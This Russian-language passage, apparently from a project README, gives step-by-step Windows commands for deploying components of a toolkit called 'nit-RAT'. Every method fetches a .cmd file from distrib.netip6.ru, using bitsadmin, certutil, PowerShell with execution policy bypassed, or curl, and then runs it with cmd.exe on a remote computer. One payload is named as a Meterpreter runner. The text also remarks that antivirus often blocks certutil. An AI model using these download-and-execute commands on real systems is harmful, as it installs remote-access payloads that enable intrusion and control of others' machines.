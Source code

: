 (требует установленного powershell 3.0+, Net Framework 4+), или

```text
c:\Util\curl.exe http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-meterpreter-loc-run-00.cmd -o C:\Users\Администратор\nit-RAT-meterpreter-loc-run-00.cmd
```

(работает всегда, но требует предварительной настройки)

Команда 2:

```text
cmd.exe /c C:\Users\Администратор\nit-RAT-meterpreter-loc-run-00.cmd
```

#### Программа Template (ничего не делает)

Способ 1:

Загрузите файл по ссылке и запустите его в папке «Загрузки»:

<http://distrib.netip6.ru:80/NIT/RAT/download.php?file=DnRn-RAT-Template.bat>

Способ 2:

Последовательно выполните следующие команды на удалённом компьютере/сервере:

Команда 1:

```text
bitsadmin.exe /Transfer RemoteEnable00 /DOWNLOAD /PRIORITY FOREGROUND http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Template-run-00.cmd C:\Users\Администратор\nit-RAT-Template-run-00.cmd
```

(работает только в командных файлах или при виртуальном доступе), или

```text
certutil.exe -urlcache -f http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Template-run-00.cmd C:\Users\Администратор\nit-RAT-Template-run-00.cmd
```

(часто не запускается, блокируется антивирусом), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Template-run-00.cmd', 'C:\Users\Администратор\nit-RAT-Template-run-00.cmd')
```

(требует установленного powershell 2.0+, .Net Framework 3.5+), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Template-run-00.cmd' -OutFile 'C:\Users\Администратор\nit-RAT-Template-run-00.cmd'
```

(требует установленного powershell 3.0+, Net Framework 4+), или

```text
c:\Util\curl.exe http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Template-run-00.cmd -o C:\Users\Администратор\nit-RAT-Template-run-00.cmd
```

(работает всегда, но требует предварительной настройки)

Команда 2:

```text
cmd.exe /c C:\Users\Администратор\nit-RAT-Template-run-00.cmd
```
